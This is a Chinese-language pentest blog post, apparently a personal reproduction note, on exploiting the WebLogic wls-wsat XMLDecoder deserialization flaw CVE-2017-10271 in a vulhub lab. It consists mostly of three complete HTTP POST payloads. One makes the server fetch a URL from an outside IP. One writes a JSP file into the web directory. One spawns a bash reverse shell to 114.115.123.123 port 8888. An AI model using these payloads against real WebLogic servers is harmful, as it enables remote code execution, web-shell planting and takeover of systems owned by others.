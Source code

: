 +++
date = "2018-03-09T09:20:03+08:00"
description = "2017年的漏洞，weblogic的 XMLDecoder 组件存在反序列化漏洞，当时爆出这个漏洞时没有看，现在权当记录了"
draft = false
tags = ["rce","deserialize"]
title = "WebLogic 反序列化漏洞(CVE-2017-10271)"
topics = ["Pentest"]

+++
<!--
 * @Author: reber
 * @Mail: 1070018473@qq.com
 * @Date: 2019-04-10 10:45:01
 * @LastEditTime: 2019-08-07 08:59:54
 -->

### 0x00 WebLogic WLS组件反序列化漏洞
这个漏洞的编号是 CVE-2017-10271，漏洞存在于 Oracle WebLogic 的 wls-wsat 组件中，该组件的 XMLDecoder 方法在反序列化时存在漏洞可远程代码执行，凡是版本号 < 10.3.6 的都受到影响，刚出来时没有看，现在记录一下

漏洞环境：https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2017-10271


### 0x01 访问远程文件
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=DJbghZRGlJf0PyyLc52n4GdvrbDkrxKWGDpwnncFpHnqsDjMT68F!-298356074
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 688
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.8" class="java.beans.XMLDecoder">
                <object id="url" class="java.net.URL">
                    <string>http://114.115.123.123:80/aaaaaaa</string>
                </object>
                <object idref="url">
                    <void id="stream" method = "openStream" />
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

### 0x02 写入文件
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=DJbghZRGlJf0PyyLc52n4GdvrbDkrxKWGDpwnncFpHnqsDjMT68F!-298356074
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 688
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.8.0" class="java.beans.XMLDecoder">
                <object class="java.io.PrintWriter"> 
                    <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/cert.jsp</string>
                    <void method="println"><string>&lt;% out.print("ccccc"); %&gt;</string></void>
                    <void method="close"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
然后访问：```http://127.0.0.1:7001/wls-wsat/cert.jsp``` 即可

### 0x03 执行命令
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=DJbghZRGlJf0PyyLc52n4GdvrbDkrxKWGDpwnncFpHnqsDjMT68F!-298356074
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 803
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <object class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3" >
                        <void index="0"><string>/bin/bash</string></void>
                        <void index="1"><string>-c</string></void>
                        <void index="2"><string><![CDATA[bash -i >& /dev/tcp/114.115.123.123/8888 0>&1]]></string></void>
                    </array>
                    <void method="start"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
![CVE-2017-10271执行命令实例](/img/post/cve_2017_10271_command_exec.png)

<br>
#### Reference(侵删)：
* [利用 DNSlog 回显 Weblogic(CVE-2017-10271)漏洞执行命令结果](http://www.freebuf.com/column/158579.html?_blank)
* [Weblogic(CVE-2017-10271)漏洞复现 附POC](http://www.bugsafe.cn/archives/136.html?_blank)
